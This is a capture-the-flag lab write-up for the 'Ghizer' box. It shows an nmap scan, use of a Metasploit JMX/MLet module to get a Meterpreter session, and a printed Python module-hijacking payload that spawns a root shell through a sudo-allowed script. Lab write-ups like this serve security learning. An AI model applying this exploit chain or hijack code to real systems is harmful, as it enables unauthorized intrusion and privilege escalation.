







# Ghizer

First i scanned with nmap:

    sudo nmap -sC -sV -p- -T4 --open 10.130.143.186
    Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-19 00:32 +0100
    Nmap scan report for 10.130.143.186
    Host is up (0.059s latency).
    Not shown: 65529 closed tcp ports (reset)
    PORT      STATE SERVICE    VERSION
    21/tcp    open  ftp?
    | fingerprint-strings:
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest, X11Probe:
    |     220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
    |     Please login with USER and PASS.
    |   Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
    |_    220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
    80/tcp    open  http       Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title:         LimeSurvey
    |_http-generator: LimeSurvey http://www.limesurvey.org
    443/tcp   open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
    |_http-generator: WordPress 5.4.2
    | tls-alpn:
    |_  http/1.1
    | ssl-cert: Subject: commonName=ubuntu
    | Not valid before: 2020-07-23T17:27:31
    |_Not valid after:  2030-07-21T17:27:31
    |_ssl-date: TLS randomness does not represent time
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Ghizer &#8211; Just another WordPress site
    18002/tcp open  java-rmi   Java RMI
    | rmi-dumpregistry:
    |   jmxrmi
    |     javax.management.remote.rmi.RMIServerImpl_Stub
    |     @127.0.1.1:36567
    |     extends
    |       java.rmi.server.RemoteStub
    |       extends
    |_        java.rmi.server.RemoteObject
    36567/tcp open  java-rmi   Java RMI
    45017/tcp open  tcpwrapped
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

interesting ports:

    21/tcp    open  ftp?
    18002/tcp open java-rmi Java RMI
    80/tcp    open  http       Apache httpd 2.4.18
    443/tcp   open  ssl/http   Apache httpd 2.4.18

**Java RMI (Remote Method Invocation)** is a Java API that enables object-oriented remote method calls between Java Virtual Machines (JVMs), allowing a client object in one JVM to invoke methods on a server object in another JVM, possibly on a different host. It is a core technology for building distributed Java applications.

## Exploit

The `multi/misc/java_jmx_server` targets the **Java Management Extensions (JMX)** interface when it is configured to run without authentication.



The exploit relies on a specific feature of JMX called the **MLet (Management Applet)** service.

In a legitimate scenario, an administrator uses MLet to tell the Java Virtual Machine (JVM) to "Go to this URL, download a new management plugin (a JAR file), and run it." The exploit abuses this by acting as that administrator and pointing the server to a malicious JAR containing a payload (Meterpreter).

I got a meterpreter session, and easly find the first flag:



## Privilege escalation

I run `sudo -l`, and found a python code (`base.py`) that i can run using root permissions.



We perform a module hijacking attack to trick base.py into loading our local base64.py. Because we run the script using sudo, the shell spawned by our hijacked module inherits root permissions

```python
    # local base64.py

    import os
    import pty

    # This code runs the moment 'import base64' is called
    os.system("/bin/bash")

    # We define this so the original script doesn't throw an AttributeError
    def b64encode(data):
        return b"Hijacked!"
```

We run `base.py`, and get a shell as root.



Easy flag!

## What are the credentials you found in the configuration file?

since we skipped some steps, it is easy now to find the config file, with the credentials.




## What is the login path for the wordpress installation?

We can find the path in the footer of this page (`https://<target-IP>`).


